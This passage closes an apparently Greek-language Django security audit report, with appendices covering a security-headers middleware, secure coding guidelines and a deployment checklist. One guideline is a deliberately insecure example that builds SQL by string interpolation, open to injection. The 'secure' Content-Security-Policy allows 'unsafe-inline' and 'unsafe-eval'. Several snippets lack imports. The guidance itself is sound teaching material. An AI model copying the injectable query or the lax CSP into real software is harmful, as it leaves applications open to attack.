# security_headers.py
SECURITY_HEADERS = {
    'Strict-Transport-Security': 'max-age=31536000; includeSubDomains',
    'X-Content-Type-Options': 'nosniff',
    'X-Frame-Options': 'DENY',
    'X-XSS-Protection': '1; mode=block',
    'Content-Security-Policy': """
        default-src 'self';
        script-src 'self' 'unsafe-inline' 'unsafe-eval';
        style-src 'self' 'unsafe-inline';
        img-src 'self' data: https:;
        font-src 'self';
        connect-src 'self';
        frame-ancestors 'none';
        base-uri 'self';
        form-action 'self';
    """.replace('\n', ' ').strip(),
    'Referrer-Policy': 'strict-origin-when-cross-origin',
    'Permissions-Policy': 'geolocation=(), microphone=(), camera=()'
}

class SecurityHeadersMiddleware:
    def __init__(self, get_response):
        self.get_response = get_response

    def __call__(self, request):
        response = self.get_response(request)
        
        for header, value in SECURITY_HEADERS.items():
            response[header] = value
            
        return response
```

### Παράρτημα Γ: Secure Coding Guidelines

```python
"""
Django Secure Coding Guidelines
Version 2.0
"""

# ✅ SECURE: Use Django ORM
from django.db import models

class Product(models.Model):
    name = models.CharField(max_length=200)
    
    @classmethod
    def search(cls, query):
        # Parameterized query - SQL injection safe
        return cls.objects.filter(name__icontains=query)

# ❌ INSECURE: Raw SQL
def insecure_search(query):
    cursor = connection.cursor()
    # NEVER DO THIS!
    cursor.execute(f"SELECT * FROM products WHERE name LIKE '%{query}%'")
    

# ✅ SECURE: Proper authentication
from django.contrib.auth import authenticate, login
from django.contrib.auth.decorators import login_required
from django.views.decorators.csrf import csrf_protect
from django.contrib.auth.hashers import make_password

@csrf_protect
@ratelimit(key='ip', rate='5/m', method='POST')
def secure_login(request):
    username = request.POST.get('username')
    password = request.POST.get('password')
    
    # Generic error message
    error_msg = "Invalid credentials"
    
    user = authenticate(username=username, password=password)
    if user is not None:
        login(request, user)
        return redirect('home')
    else:
        return render(request, 'login.html', {'error': error_msg})


# ✅ SECURE: XSS Prevention
from django.utils.html import escape
from bleach import clean

def secure_view(request):
    user_input = request.GET.get('q', '')
    
    # Auto-escaped in template
    context = {
        'search_query': user_input,  # Will be escaped by Django
        'sanitized': clean(user_input, tags=[], strip=True)
    }
    
    return render(request, 'search.html', context)


# ✅ SECURE: IDOR Prevention
@login_required
def secure_order_view(request, order_id):
    # Check ownership
    order = get_object_or_404(Order, id=order_id, user=request.user)
    return render(request, 'order.html', {'order': order})


# ✅ SECURE: Session configuration
SESSION_COOKIE_SECURE = True
SESSION_COOKIE_HTTPONLY = True
SESSION_COOKIE_SAMESITE = 'Strict'
SECURE_SSL_REDIRECT = True
CSRF_COOKIE_SECURE = True
```

### Παράρτημα Δ: Testing Checklist

```markdown
## Pre-Deployment Security Checklist

### Code Review
- [ ] No raw SQL queries
- [ ] All user input sanitized
- [ ] CSRF protection on all forms
- [ ] Authentication on sensitive endpoints
- [ ] No hardcoded credentials
- [ ] Secure password hashing (Argon2/bcrypt)
- [ ] No debug information in production

### Configuration
- [ ] DEBUG = False
- [ ] SECRET_KEY changed from default
- [ ] ALLOWED_HOSTS properly configured
- [ ] Database credentials secured
- [ ] HTTPS enforced
- [ ] Security headers enabled
- [ ] Session security configured

### Testing
- [ ] SAST scan passed
- [ ] DAST scan completed
- [ ] Dependency vulnerabilities checked
- [ ] Manual penetration test performed
- [ ] Security regression tests pass
- [ ] Performance under security tools verified

### Deployment
- [ ] Secrets in environment variables
- [ ] Logging configured (no sensitive data)
- [ ] Monitoring alerts set up
- [ ] Incident response plan ready
- [ ] Backup and recovery tested
- [ ] Security patches applied
```

---

**Τέλος Αναφοράς v2.0**

**Συντάχθηκε από**: [ΟΝΟΜΑ]  
**Ημερομηνία**: [ΗΜΕΡΟΜΗΝΙΑ]  
**Έγκριση**: _________________

**Η αναφορά αυτή περιέχει ευαίσθητες πληροφορίες ασφαλείας και πρέπει να αντιμετωπίζεται ως ΑΥΣΤΗΡΑ ΕΜΠΙΣΤΕΥΤΙΚΗ**